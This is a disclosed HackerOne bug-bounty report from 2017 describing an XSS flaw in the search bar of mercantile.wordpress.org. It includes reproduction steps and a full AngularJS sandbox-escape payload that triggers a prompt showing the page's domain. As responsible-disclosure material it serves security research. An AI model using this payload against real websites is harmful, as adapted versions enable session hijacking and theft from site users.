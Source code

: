 # XSS in the search bar of mercantile.wordpress.org

## Report Details
- **Report ID**: 221893
- **URL**: https://hackerone.com/reports/221893
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-04-18T13:40:36.012Z
- **Disclosed**: 2017-05-20T12:03:33.225Z

## Reporter
- **Username**: codertom
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: wordpress

## Vulnerability Information
Hi wordpress! Glad to see you here at H1.

       I found a XSS issue in the https://mercantile.wordpress.org/s=<payload here>
This works with the angular js payloads. I did inject a angular js code its because I found the `ng-bindable` in the source.

###STEPS TO REPRODUCE
1. Go to https://mercantile.wordpress.org
2. Click on search and put this payload:
>
`{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,prompt(document.domain)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}`
As you could now see the domain has been popped up.

If you have any questions just tell me and I will try my best to have an answer.

Kind Regards,
Tom
    


## Attachments
No attachments
